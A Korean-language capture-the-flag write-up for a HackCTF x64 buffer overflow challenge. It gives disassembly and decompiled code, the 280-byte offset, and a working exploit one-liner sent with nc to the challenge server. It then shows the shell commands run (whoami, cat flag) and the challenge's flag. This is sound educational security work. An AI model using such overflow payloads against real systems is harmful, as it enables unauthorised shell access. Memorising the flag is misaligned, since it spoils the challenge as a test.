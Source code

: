 #x64 Buffer Overflow

---

x64에서의 기본적인 bufferoverflow문제이다. 우선 `main()`의 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0000000000400641 <+0>:	push   rbp
   0x0000000000400642 <+1>:	mov    rbp,rsp
   0x0000000000400645 <+4>:	sub    rsp,0x120
   0x000000000040064c <+11>:	mov    DWORD PTR [rbp-0x114],edi
   0x0000000000400652 <+17>:	mov    QWORD PTR [rbp-0x120],rsi
   0x0000000000400659 <+24>:	lea    rax,[rbp-0x110]
   0x0000000000400660 <+31>:	mov    rsi,rax
   0x0000000000400663 <+34>:	mov    edi,0x400741
   0x0000000000400668 <+39>:	mov    eax,0x0
   0x000000000040066d <+44>:	call   0x400508
   0x0000000000400672 <+49>:	lea    rax,[rbp-0x110]
   0x0000000000400679 <+56>:	mov    rdi,rax
   0x000000000040067c <+59>:	call   0x4004e0
   0x0000000000400681 <+64>:	mov    DWORD PTR [rbp-0x4],eax
   0x0000000000400684 <+67>:	lea    rax,[rbp-0x110]
   0x000000000040068b <+74>:	mov    rsi,rax
   0x000000000040068e <+77>:	mov    edi,0x400744
   0x0000000000400693 <+82>:	mov    eax,0x0
   0x0000000000400698 <+87>:	call   0x4004e8
   0x000000000040069d <+92>:	mov    eax,0x0
   0x00000000004006a2 <+97>:	leave  
   0x00000000004006a3 <+98>:	ret    
End of assembler dump.
```

```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      char s; // [rsp+10h] [rbp-110h]
      int v5; // [rsp+11Ch] [rbp-4h]
    
      _isoc99_scanf("%s", &s);
      v5 = strlen(&s);
      printf("Hello %s\n", &s);
      return 0;
    }
```

다음에서 보면 scanf를 통해서 s에 문자열을 입력받는다. 이때 문자열 길이에 제한이 없기 때문에 stackoverflow가 일어난다. 때문에 `main()`의 ret주소를 다음 함수의 주소로 바꾸어주면 된다.

```c
    int callMeMaybe()
    {
      char *path; // [rsp+0h] [rbp-20h]
      const char *v2; // [rsp+8h] [rbp-18h]
      __int64 v3; // [rsp+10h] [rbp-10h]
    
      path = "/bin/bash";
      v2 = "-p";
      v3 = 0LL;
      return execve("/bin/bash", &path, 0LL);
    }
```
`main()+24`에서 보면 scanf를 통해서 받는 문자열의 주소가 rbp-0x110이다. 때문에 `main()`의 ret주소를 조작하기 위해서는 0x110에다가 SFP(8bytes)만큼 dummy로 덮고 `callMeMaybe()`의 주소를 ret주소에 덮어주면 될 것이다. 이를 위한 payload는 다음과 같다.

**[dummy 280bytes] + callMeMaybe()_address**

`callMeMaybe()`의 주소는 다음과 같으므로 익스가 가능하다.
```gdb
    gdb-peda$ p callMeMaybe
    $1 = {<text variable, no debug info>} 0x400606 <callMeMaybe>
```
---
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/5.x64BufferOverflow$ (python -c "print 'A'*280 + '\x06\x06\x40\x00\x00\x00\x00\x00'";cat) | nc ctf.j0n9hyun.xyz 3004
    whoami
    attack
    ls
    flag
    main
    cat flag
    HackCTF{64b17_b0f_15_51mpl3_700}
```
**flag: HackCTF{64b17_b0f_15_51mpl3_700}**
